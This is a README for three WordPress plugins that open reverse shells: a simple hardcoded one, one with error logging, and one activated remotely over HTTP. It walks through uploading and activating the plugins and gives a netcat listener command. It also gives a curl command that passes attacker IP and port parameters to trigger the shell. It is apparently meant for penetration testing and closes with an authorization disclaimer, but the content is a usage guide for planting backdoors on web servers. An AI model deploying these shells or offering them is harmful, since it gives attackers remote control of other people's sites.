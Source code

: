## Simple Reverse Shell

### Description
This plugin creates a reverse shell connection upon activation. The IP and port are hardcoded and should be modified before use. Intended for educational and ethical testing purposes only.

### Installation
1. Edit the plugin file `simple-reverse-shell.php` and replace `YOUR_IP_ADDRESS` and `YOUR_PORT` with your IP address and listening port.
2. Zip the modified plugin file.
3. Navigate to your WordPress admin panel.
4. Go to Plugins > Add New > Upload Plugin.
5. Choose the zip file and click Install Now.
6. Once installed, activate the plugin.

### Usage
Ensure you have a netcat listener running on the specified IP and port before activating the plugin. To start a listener, you can use the following command in your terminal:
```
nc -lvnp YOUR_PORT
```
Replace `YOUR_PORT` with the port number you've set in the plugin file.

### Troubleshooting
If the connection is not established, check the following:
- Your server's firewall allows outbound connections on the specified port.
- Your IP address and port are correctly set in the plugin file.
- Your netcat listener is running and configured to listen on the correct port.

---

## WP Rev Shell with Error Logging

### Description
This reverse shell plugin includes timestamp logging. The `log.txt` file in the site's root directory contains shell status and errors.

### Installation
1. Zip the plugin file `wp-rev-shell-with-error-logging.php`.
2. Follow the same installation steps as the Simple Reverse Shell plugin.

### Usage
Before activating the plugin, ensure your netcat listener is running as described in the Simple Reverse Shell section.

### Troubleshooting
If you encounter issues, check the `log.txt` file in the root directory of your WordPress installation for detailed error messages and timestamps.

---

## WordPress Reverse Shell Remotely Activated

### Description
This reverse shell plugin can be activated via an HTTP request, allowing for remote activation with dynamic IP and port settings.

### Installation
1. Zip the plugin file `wp-dynamic.php`.
2. Follow the same installation steps as the Simple Reverse Shell plugin.

### Usage
Activate the plugin remotely by sending an HTTP request with the IP and port parameters. Use the following `curl` command:
```
curl 'http://[Your_WordPress_Site]/wp-content/plugins/wp-dynamic/wp-dynamic.php?activate=1&ip=[Attacker_IP]&port=[Attacker_Port]'
```
Replace `[Your_WordPress_Site]` with your WordPress site URL, `[Attacker_IP]` with your IP address, and `[Attacker_Port]` with your listening port.

### Troubleshooting
Check the `log.txt` file for any error messages. Ensure that:
- The plugin file path in the `curl` command is correct.
- Your server allows HTTP requests with query parameters.
- Your netcat listener is correctly set up.

For all plugins, ensure that you have the necessary permissions to install and activate plugins on the WordPress site. Use these tools responsibly and only on systems where you have authorization to do so. Unauthorized use may be illegal and unethical.
